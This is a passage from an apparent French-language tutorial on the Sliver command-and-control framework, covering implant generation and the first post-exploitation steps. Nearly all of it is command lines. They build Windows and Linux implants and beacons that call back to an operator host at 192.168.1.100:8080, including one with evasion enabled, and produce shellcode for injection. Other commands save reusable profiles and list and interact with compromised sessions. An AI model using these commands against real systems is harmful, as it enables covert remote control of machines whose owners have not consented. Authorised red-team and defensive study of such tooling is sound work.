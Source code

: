 ## 4. Génération d'Implants {#implants}

### Génération d'un implant Windows
```bash
# Implant Windows basique
sliver > generate --http 192.168.1.100:8080 --os windows --arch amd64 --format exe --save /tmp/

# Implant avec options avancées
sliver > generate beacon --http 192.168.1.100:8080 --os windows --arch amd64 --jitter 30s --interval 60s --format exe --save /tmp/
```

### Génération d'un implant Linux
```bash
# Implant Linux
sliver > generate --http 192.168.1.100:8080 --os linux --arch amd64 --format elf --save /tmp/

# Implant avec obfuscation
sliver > generate --http 192.168.1.100:8080 --os linux --arch amd64 --format elf --evasion --save /tmp/
```

### Génération d'un shellcode
```bash
# Génération de shellcode pour injection
sliver > generate --http 192.168.1.100:8080 --os windows --arch amd64 --format shellcode --save /tmp/
```

### Profils de génération
```bash
# Créer un profil réutilisable
sliver > profiles new --http 192.168.1.100:8080 --os windows --arch amd64 --format exe windows-profile

# Utiliser un profil
sliver > profiles generate windows-profile --save /tmp/

# Lister les profils
sliver > profiles
```

## 5. Techniques Post-Exploitation {#post-exploitation}

### Gestion des sessions
```bash
# Lister les sessions actives
sliver > sessions

# Interagir avec une session
sliver > use <session-id>

# Informations système
sliver (<session>) > info
sliver (<session>) > ps
sliver (<session>) > netstat
```
